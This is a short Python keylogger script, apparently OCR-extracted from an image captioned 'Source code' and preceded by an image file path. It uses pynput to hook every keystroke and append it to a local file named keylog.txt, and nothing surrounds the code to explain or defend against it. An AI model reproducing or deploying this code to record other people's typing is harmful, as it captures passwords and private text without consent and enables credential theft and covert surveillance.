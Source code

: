 from pynput import keyboard  

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f"[{key}]")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()  
